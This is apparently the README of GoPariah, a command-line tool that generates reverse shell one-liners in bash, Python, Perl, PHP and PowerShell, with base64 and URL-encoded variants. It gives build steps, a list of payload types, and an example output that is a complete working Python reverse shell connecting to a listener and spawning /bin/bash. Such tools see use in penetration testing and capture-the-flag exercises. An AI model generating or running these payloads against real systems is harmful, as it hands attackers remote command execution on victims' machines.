 <div align=center>
  <img src="https://miro.medium.com/v2/resize:fit:1358/0*rs9e2N81fxl4n-Dx.png" width=250px>
</div>

# GOPARIAH

GoPariah is a tool to generate reverse shells on the fly. It was inspired by [LazyPariah](https://github.com/octetsplicer/LAZYPARIAH).

### Installing or Downloading
You can build it from source by running the following commands:

```
$ git clone https://github.com/julio-cfa/gopariah.git
$ go build main.go -o gopariah
```
Or, alternatively, you can grab a precompiled binary from the "Releases" section.
<br>PS: Don't forget to add it to your PATH.
### Usage
```
$ ./gopariah --help
Usage: ./gopariah <revshell-type> <lhost> <lport> 

> Available revshells: 
  bash
  bash_urlencode
  python
  python3
  python_b64
  python3_b64
  python_urlencode
  python3_urlencode
  mkfifo
  mkfifo_urlencode
  perl
  perl_b64
  perl_urlencode
  php
  php_b64
  php_urlencode
  powershell
  powershell_b64
  powershell_urlencode
```
### Example
```
$ ./gopariah python3 127.0.0.1 9001
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("127.0.0.1",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```
